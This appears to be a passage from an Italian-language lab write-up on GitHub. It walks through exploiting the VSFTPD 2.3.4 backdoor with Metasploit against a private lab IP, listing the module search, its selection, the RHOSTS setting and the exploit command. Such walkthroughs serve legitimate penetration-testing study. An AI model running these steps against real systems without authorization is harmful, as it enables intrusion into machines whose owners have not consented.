 ### 3.3 Sfruttamento (Exploitation)

* **Scopo:** Utilizzare una vulnerabilità scoperta per ottenere accesso alla macchina target.
* **Vulnerabilità Sfruttata:** Backdoor in VSFTPD 2.3.4 (CVE sconosciuta, ma nota come "backdoor del 2011").
* **Strumenti:** Metasploit Framework (`msfconsole`)

**Passi Dettagliati:**

1.  **Avvio di `msfconsole`:**
    ```bash
    msfconsole
    ```
<img width="1406" height="996" alt="Screenshot_2025-07-10_15-58-23" src="https://github.com/user-attachments/assets/7ba018cb-f8f6-4fc5-a032-480707b1b667" />

2.  **Ricerca dell'exploit:**
    ```
    search vsftpd
    ```
    **Output:**
    ```
    Matching Modules
    ================

       #  Name                              Disclosure Date  Rank    Check  Description
       -  ----                              ---------------  ----    -----  -----------
       0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  Yes    VSFTPD v2.3.4 Backdoor Command Execution
    ```
<img width="1395" height="985" alt="Screenshot_2025-07-10_15-58-37" src="https://github.com/user-attachments/assets/80f999a6-dfdf-4f2f-b062-0a8a4c8334a9" />
    
3.  **Selezione dell'exploit:**
    ```
    use exploit/unix/ftp/vsftpd_234_backdoor
    ```

4.  **Impostazione dell'IP del Target (`RHOSTS`):**
    ```
    set RHOSTS 172.16.236.131  
    ```
    **Verifica delle opzioni:**
    ```
    show options
    ```
    <img width="1405" height="992" alt="Screenshot_2025-07-10_15-59-11" src="https://github.com/user-attachments/assets/a079a1da-04c2-4ef5-a807-7bdf73bcfa74" />

5.  **Esecuzione dell'exploit:**
    
    exploit
    